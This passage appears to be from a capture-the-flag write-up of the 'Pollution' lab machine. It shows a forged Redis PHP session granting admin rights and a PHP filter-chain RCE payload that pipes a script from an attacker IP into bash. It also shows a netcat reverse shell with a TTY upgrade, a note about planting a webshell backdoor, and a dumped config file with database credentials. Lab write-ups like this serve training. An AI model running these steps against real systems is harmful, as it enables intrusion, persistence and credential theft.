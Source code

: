 ```
10.129.103.183:6379> SET PHPREDIS_SESSION:8ep08cag4vhgmaqkfdrj0h9mrh "username|s:4:\"test\";role|s:5:\"admin\";auth|s:4:\"True\";"
OK
10.129.103.183:6379> get PHPREDIS_SESSION:8ep08cag4vhgmaqkfdrj0h9mrh
"username|s:3:\"foo\";role|s:5:\"admin\";auth|s:4:\"True\";"
```

- Upon loading `http://developers.collect.htb` I got redirected to `/page=home`
- Used RCE through PHP filters: https://github.com/synacktiv/php_filter_chain_generator
- Got revshell as `www-data`
- Payload: ```<?=`curl 10.10.16.15/r -o - | bash`?>```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.104.107] 45908
bash: cannot set terminal process group (959): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pollution:~/developers$ which python3
which python3
/usr/bin/python3
www-data@pollution:~/developers$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ers$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@pollution:~/developers$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg             
[1]  + continued  nc -lvnp 1337

www-data@pollution:~/developers$ export TERM=xterm-256color
www-data@pollution:~/developers$ stty rows 39 cols 157
www-data@pollution:~/developers$ 

```

- Planted a webshell backdoor in `forum` in case I lose my shell

---

## Lateral Movement

- collect config.php:

```php
www-data@pollution:~/collect$ cat config.php 
<?php


return [
    "db" => [
        "host" => "localhost",
        "dbname" => "webapp",
        "username" => "webapp_user",
        "password" => "Str0ngP4ssw0rdB*12@1",
        "charset" => "utf8"
    ],
];
```
